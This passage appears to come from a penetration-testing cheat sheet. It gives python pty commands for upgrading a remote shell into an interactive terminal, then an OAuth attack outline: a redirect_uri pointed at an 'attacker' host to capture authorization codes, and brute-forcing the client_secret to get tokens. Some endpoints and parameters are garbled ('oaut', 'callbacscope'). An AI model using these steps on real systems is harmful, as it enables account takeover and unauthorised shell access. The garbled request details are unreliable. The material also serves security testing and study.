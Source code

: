 ```bash
python3 -c "import pty;pty.spawn('/bin/bash')"

or

python -c "import pty;pty.spawn('/bin/bash')"

export TERM=xterm

Ctrl+z

stty raw -echo; fg
```

## Authentication

### OAUTH

<https://www.rfc-editor.org/rfc/rfc6749>

request for the oauth consent:
- method: GET
- path: /oauth/authorize
- data:
```
response_type=[code or token]
redirect_uri
scope
client_id
```
example request:
http://vulnerable_oauth_server.com/oaut/authorize?response_type=code&redirect_uri=http://attacker/callbacscope=view_gallery&client_id=photoprint",
the redirect to the attacker page is:
example response:
redirect to:
http://attacker/callback/?code=AUTHORIZATION_CODE

request to get the token (for initial and refresh):
method: POST
path: /oaut/token
data:
redirect_uri
grant_type=[authorization_code or refresh_token]
client_id
client_secret=[BRUTE_FORCE]
code=AUTHORIZATION_CODE
example response:
access_token
refresh_token
id_token
token_type
